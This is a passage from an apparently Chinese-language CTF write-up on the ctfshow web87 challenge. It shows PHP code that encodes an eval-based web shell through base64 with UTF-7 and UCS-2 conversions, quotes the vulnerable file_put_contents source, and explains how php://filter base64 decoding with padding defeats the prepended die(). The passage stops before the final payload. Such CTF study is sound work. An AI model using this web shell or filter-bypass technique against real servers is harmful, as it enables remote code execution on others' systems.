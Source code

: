 payload构造方法根据实际情况使用特定函数编码

```php
<?php
    # UTF-8->UTF-7->base64组合拳
    echo base64_encode('<?php @eval($_GET[a]);?>').'<br>';
    echo iconv("UTF-8","UTF-7",base64_encode('<?php @eval($_GET[a]);?>')).'<br>';
    $a = iconv("UTF-8","UTF-7",base64_encode('<?php @eval($_GET[a]);?>'));
    echo base64_decode(iconv("UTF-7","UTF-8",$a));
	# UCS-2*->base64组合拳
    echo base64_encode('<?php @eval($_GET[a]);?>').'<br>';
    echo iconv("UCS-2BE","UCS-2LE",base64_encode('<?php @eval($_GET[a]);?>')).'<br>';
    $a = iconv("UCS-2BE","UCS-2LE",base64_encode('<?php @eval($_GET[a]);?>'));
    echo base64_decode(iconv("UCS-2LE","UCS-2BE",$a));
?>
```

例题：ctfshow_web87

题目：

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 21:57:55
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

if(isset($_GET['file'])){
    $file = $_GET['file'];
    $content = $_POST['content'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);

    
}else{
    highlight_file(__FILE__);
}
```

使用filter过滤器对输入流进行base64解码扰乱插入的`<?php die('大佬别秀了');?>`，使其不能解析为php，而后面插入的content内容为想要插入的攻击代码的base64编码即可，这样后面的内容就能正常解码出攻击代码，这样既绕过了die也成功注入了攻击代码。不过要使前面`<?php die('大佬别秀了');?>`解码成功还要补位使可解码字符为8的倍数，由于base64编码的组成字符只有`ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/`所以`<?');>`不算有效字符，有效字符只有phpdie不满足4的倍数，所以构造如下content：
